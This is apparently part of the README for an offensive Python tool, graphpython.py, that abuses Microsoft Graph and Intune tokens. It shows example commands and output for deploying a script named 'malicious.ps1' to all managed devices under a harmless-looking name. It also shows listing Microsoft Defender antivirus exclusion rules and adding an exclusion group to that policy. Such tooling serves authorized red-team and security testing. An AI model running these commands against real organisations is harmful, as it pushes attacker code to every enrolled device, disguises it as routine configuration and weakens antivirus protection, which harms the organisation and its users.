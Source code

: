 
## Get-ScriptContent

![](./.github/getscriptcontent.png)


## Deploy-MaliciousScript
#### Example:
```
# graphpython.py --command deploy-maliciousscript --token .\intune --script malicious.ps1
```
#### Output:
```
[*] Deploy-MaliciousScript
================================================================================

Enter Script Display Name: Config script
Enter Script Description: Device config update

[+] Script created successfully
Script ID: b024deb4-e48b-42e0-b9ac-625e2bb41042

[+] Script assigned to all devices
================================================================================
```

## Add-ExclusionGroupToPolicy
#### Example:
```
# graphpython.py --command display-avpolicyrules --id 0b98128f-d1ac-4a5a-9add-303d27ad5616 --token .\intune

[*] Display-AVPolicyRules
================================================================================
Excluded extensions : .ps1
Excluded paths : C:\programdata
Excluded processes : C:\WINDOWS\Explorer.EXE
================================================================================
```
Add an exclusion group to the Microsoft Defender Antivirus exclusions policy above:
```
# graphpython.py --command add-exclusiongrouptopolicy --id 0b98128f-d1ac-4a5a-9add-303d27ad5616 --token .\intune

[*] Add-ExclusionGroupToPolicy
================================================================================
```